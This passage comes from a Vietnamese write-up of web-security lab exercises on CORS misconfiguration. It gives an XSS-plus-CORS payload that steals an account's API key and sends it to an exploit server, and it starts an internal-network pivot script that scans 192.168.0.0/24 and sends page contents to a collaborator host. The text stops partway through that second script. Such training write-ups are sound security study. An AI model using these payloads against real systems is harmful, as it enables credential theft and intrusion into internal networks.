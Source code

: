 Vì miền này được trust, nên tại đây ta có thể gửi cross-origin request tới trang web đang tấn công thông qua lỗ hổng XSS và thu về API key, sau đó gửi sang exploit server

Payload:

```javascript!
<script>
document.location = "http://stock.0a8500bc04d92d95c074953600080091.web-security-academy.net/?productId=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onload%20%3D%20reqListener%3B%0Areq.open%28%27get%27%2C%27https%3A%2F%2F0a8500bc04d92d95c074953600080091.web-security-academy.net%2FaccountDetails%27%2Ctrue%29%3B%0Areq.withCredentials%20%3D%20true%3B%0Areq.send%28%29%3B%0A%0Afunction%20reqListener%28%29%20%7B%0A%20%20%20location%3D%27https%3A%2F%2Fexploit-0a09000304f12d5dc018944701b7004e.exploit-server.net%2Fexploit%2Flog%3Fkey%3D%27%2Bthis.responseText%3B%0A%7D%3B%0A%3C%2Fscript%3E&storeId=1"
</script>
```
Kết quả:

>![](https://i.imgur.com/XyiHoo2.png)

<hr>

### Bài 4: CORS vulnerability with internal network pivot attack

>![](https://i.imgur.com/CTHfjQp.png)

Website của bài lab chứa lỗ hổng trong việc cấu hình CORS khi mà nó tin cậy requests từ domain nội bộ. Để solve bài lab, xóa user `carlos`.

Đầu tiên, theo gợi ý của đề, có một máy nội bộ thuộc địa chỉ mạng `192.168.0.0/24` port 8080. Để tìm ra địa chỉ này, ta phải brute-force bằng cách gửi tới nạn nhân 1 trang web fetch nội dung địa chỉ từ 192.168.0.1 đến 192.168.0.254.

```javascript!
<script>
var q = [], collaboratorURL = 'http://na1zwg2o5br0hf6mhwx6cdrg076zuo.oastify.com';


//Brute-force full địa chỉ mạng nội bộ, mỗi request cách nhau 1mili giây để tránh flooding mạng nội bộ.ạng.
for(i=1;i<=254;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
```